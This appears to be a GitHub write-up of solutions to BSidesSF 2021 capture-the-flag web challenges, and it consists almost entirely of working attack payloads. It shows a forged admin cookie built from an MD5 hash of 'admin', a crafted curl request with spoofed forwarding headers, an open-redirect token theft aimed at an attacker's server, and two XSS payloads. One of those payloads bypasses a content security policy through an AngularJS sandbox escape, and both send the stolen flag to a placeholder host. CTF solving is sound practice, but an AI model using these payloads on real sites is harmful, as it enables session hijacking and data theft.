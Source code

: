 # BSidesSF 2021

## Thin Mint

```
tm_admin: 1
tm_user: 21232f297a57a5a743894a0e4a801fc3
```

## Higher Hurdles

```bash
curl -I  https://username:4ef03423738a4aa7956528feebbc65474c053f5937032dfb9219af62@higher-hurdles-74a23189.challenges.bsidessf.net/hurdles/\!\!\?retrieve\=flag\&%26%3D%26%3D%26\=%2500%0a -X PUT -A "1337 v.9001" -H "X-Forwarded-For: 13.37.37.13,19.18.0.1,19.18.0.1,10.5.4.3,10.5.4.3,127.1.1.1,127.1.1.1"  -b "Fortune=6265" -H "Accept: text/plain" -H "Accept-Language: de" -H "Origin: https://ctf.bsidessf.net" -H "Referer: https://ctf.bsidessf.net/challenges" -H "DNT: 1" -H "Sec-Fetch-Site: same-origin" -H "Sec-Fetch-Mode: navigate" -H "Sec-Fetch-User: ?1"
```

## CuteSrv

* get TOKEN by submitting `https://loginsvc-0af88b56.challenges.bsidessf.net/check?continue=YOUR_VPS`
* authorize with `https://cutesrv-0186d981.challenges.bsidessf.net/setsid?authtok=TOKEN`
* visit `/flag.txt`


## CSP 1

```javascript
<iframe src='x' onload='fetch("/csp-one-flag").then(r => r.text()).then(r => fetch(`http://xxxx/?flag=${r}`,{'mode':'no-cors'}))'>
```
## CSP 2

```javascript
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
 <div ng-app ng-csp>
  {{ x = $on.curry.call().eval("fetch("/csp-two-flag").then(r => r.text()).then(r => fetch(`http://xxxx/?flag=${r}`,{'mode':'no-cors'}))") }}
 </div>
```